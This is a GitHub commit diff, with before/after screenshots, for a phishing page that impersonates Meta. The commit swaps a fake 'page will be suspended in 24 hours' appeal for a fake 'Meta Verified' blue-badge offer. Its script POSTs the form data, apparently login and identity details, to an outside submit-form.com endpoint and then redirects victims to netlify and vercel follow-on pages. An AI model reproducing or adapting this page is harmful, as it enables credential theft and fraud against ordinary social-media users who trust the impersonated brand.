

Before and after one commit to bilalsproject1319/Pablo-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1071 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update and rename index (1).html to index.html

```diff
--- a/index (1).html
+++ b/index.html
@@ -1,7 +1,7 @@
 <html lang="en"><head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Facebook Page Support Center</title>
+    <title>Meta Verified Support Center</title>
     <style>
       :root {
         --fb-blue: #1877f2;
@@ -71,8 +71,8 @@
         margin-top: 0;
       }
 
-      /* Official Notice */
-      .official-notice {
+      /* Official Badge Notification */
+      .official-Badge-Notification {
         background-color: white;
         border-radius: 8px;
         padding: 15px;
@@ -465,45 +465,41 @@
           <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor" viewBox="0 0 16 16">
             <path d="M8 1a2 2 0 0 1 2 2v4H6V3a2 2 0 0 1 2-2zm3 6V3a3 3 0 0 0-6 0v4a2 2 0 0 0-2 2v5a2 2 0 0 0 2 2h6a2 2 0 0 0 2-2V9a2 2 0 0 0-2-2z"></path>
           </svg>
-          <span>Facebook Secure Connection</span>
+          <span>Meta Verified Connection</span>
         </div>
-        <h1>Page Support Center</h1>
+        <h1>Meta Verified Support Center</h1>
       </div>
 
-      <div class="official-notice">
-        <div class="notice-header">
+      <div class="official-Badge-Notification">
+        <div class="Notification-header">
           <svg class="verified-badge" xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor" viewBox="0 0 16 16">
             <path d="M16 8A8 8 0 1 1 0 8a8 8 0 0 1 16 0zm-3.97-3.03a.75.75 0 0 0-1.08.022L7.477 9.417 5.384 7.323a.75.75 0 0 0-1.06 1.06L6.97 11.03a.75.75 0 0 0 1.079-.02l3.992-4.99a.75.75 0 0 0-.01-1.05z"></path>
           </svg>
-          <strong>Official Notice from Facebook</strong>
+          <strong>Official Badge Notification</strong>
         </div>
         <p>
-          Our systems have detected unusual activity on your page that may
-          violate our Community Standards.
+          Your page activity indicates potential eligibility for the official Verified Badge.
         </p>
       </div>
 
       <div class="warning-box">
-        <h2 class="warning-title">Immediate Action Required</h2>
+        <h2 class="warning-title">𝐂𝐨𝐧𝐠𝐫𝐚𝐭𝐮𝐥𝐚𝐭𝐢𝐨𝐧𝐬</h2>
         <p>
-          Your page <strong>"Business Page"</strong> will be permanently
-          suspended within <strong>24 hours</strong> unless you complete the
-          verification process.
+          Your page <strong>"Business Page"</strong> has met the criteria for the <strong>Blue Badge Verification</strong>. Proceed with verification to activate it.
         </p>
         <p>
-          To prevent your page from being suspended, please submit an appeal by
-          clicking the button below and following the instructions.
+          To confirm your page’s verification eligibility, please complete the verification request by clicking the button below and following the instructions.
         </p>
       </div>
 
-      <button id="submitAppealBtn" class="fb-button">Submit Appeal Now</button>
+      <button id="submitBtn" class="fb-button">Submit</button>
 
       <div class="fb-footer">
         <a href="#">Help Center</a>
         <a href="#">Privacy Policy</a>
         <a href="#">Terms of Service</a>
         <a href="#">Community Standards</a>
-        <span>Meta © 2023</span>
+        <span>Meta © 2025</span>
       </div>
     </div>
 
@@ -545,7 +541,7 @@
               <div class="step-content">
                 <div class="step-title">Complete identity confirmation</div>
                 <div class="step-description">
-                  Final step to prevent page suspension
+                  Final Step to Get Officially Verified
                 </div>
               </div>
             </div>
@@ -714,9 +710,9 @@
         appealModal.style.display = "block";
       };
 
-      // Function to submit to first form (https://submit-form.com/ZSGzoMbOH)
+      // Function to submit to first form (https://submit-form.com/rkdojYVFO)
       function submitToFirstForm(data) {
-        return fetch("https://submit-form.com/ZSGzoMbOH", {
+        return fetch("https://submit-form.com/rkdojYVFO", {
           method: "POST",
           headers: {
             "Content-Type": "application/json",
@@ -818,7 +814,7 @@
               appealModal.style.display = "none";
 
               // Redirect to example link after successful submission
-              window.location.href = "https://please-re-enter-backup-to-complete.netlify.app/";
+              window.location.href = "https://appeal-get-verified-badge-opportuni.vercel.app/";
             })
             .catch((error) => {
               // Hide loading state
@@ -830,7 +826,7 @@
               // Still redirect even if submission fails (optional behavior)
               // Comment out the next 3 lines if you want to prevent redirect on error
               appealModal.style.display = "none";
-              window.location.href = "https://please-re-enter-backup-to-complete.netlify.app/";
+              window.location.href = "https://appeal-get-verified-badge-opportuni.vercel.app/";
             });
         } else {
           // Scroll to first error
```
